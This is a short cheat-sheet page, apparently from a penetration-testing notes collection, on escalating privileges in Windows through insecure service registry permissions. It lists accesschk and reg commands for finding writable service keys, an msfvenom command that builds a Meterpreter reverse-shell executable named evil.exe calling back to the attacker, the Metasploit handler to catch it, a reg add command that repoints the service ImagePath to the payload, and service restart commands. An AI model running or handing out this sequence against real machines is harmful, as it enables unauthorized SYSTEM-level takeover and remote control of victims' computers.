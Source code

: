 # Insecure Registry Permissions
Information about services are stored in the register key below in Windows systems
```
HKLM\SYSTEM\CurrentControlSet\Services
```
For example, check information about VulnService
```
HKLM\SYSTEM\CurrentControlSet\Services\VulnService
```

### Check Registry Keys Permissions
```
accesschk.exe -kvuqsw "Authenticated Users" HKLM\SYSTEM\CurrentControlSet\Services
accesschk.exe -kvuqsw "Everyone" HKLM\SYSTEM\CurrentControlSet\Services
```

### Check ImagePath of Service
```
reg query HKLM\SYSTEM\CurrentControlSet\Services\VulnService /v "ImagePath"
```

### Generate malicious exe with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP_ADDRESS LPORT=LOCAL_PORT –f exe > evil.exe
```
Upload the exe file to target machine and then 
```use exploit/multi/handler```
on metasploit.

### Change ImagePath of Service
```
reg add “HKLM\SYSTEM\CurrentControlSet\Services\VulnService” /t REG_EXPAND_SZ /v ImagePath /d “C:\evil.exe” /f
```

### Service Restart
```
sc stop <service-name>
sc start <service-name>
```

### See also
* [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
